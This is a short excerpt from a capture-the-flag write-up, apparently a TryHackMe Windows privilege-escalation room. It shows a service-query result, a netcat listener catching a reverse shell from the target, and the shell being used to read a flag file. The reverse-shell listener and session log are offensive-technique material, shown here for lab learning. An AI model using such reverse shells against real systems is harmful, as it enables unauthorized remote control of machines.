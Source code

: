 ```
SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 4352
        FLAGS              :

rev_shell

──(kali㉿kali)-[~]
└─$ nc -nlvp 4445          
listening on [any] 4445 ...
connect to [10.11.81.220] from (UNKNOWN) [10.10.90.7] 49915
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\svcusr1

C:\Windows\system32>cd ..
cd ..

C:\Windows>cd ..
cd ..

C:\>cd Users
cd Users

C:\Users>cd svcusr1
cd svcusr1

C:\Users\svcusr1>cd Desktop
cd Desktop

C:\Users\svcusr1\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\svcusr1\Desktop

05/03/2022  01:00 PM    <DIR>          .
05/03/2022  01:00 PM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
05/03/2022  01:01 PM                20 flag.txt
               3 File(s)          1,101 bytes
               2 Dir(s)  15,004,762,112 bytes free

C:\Users\svcusr1\Desktop>more flag.txt
more flag.txt
THM{AT_YOUR_SERVICE}

```
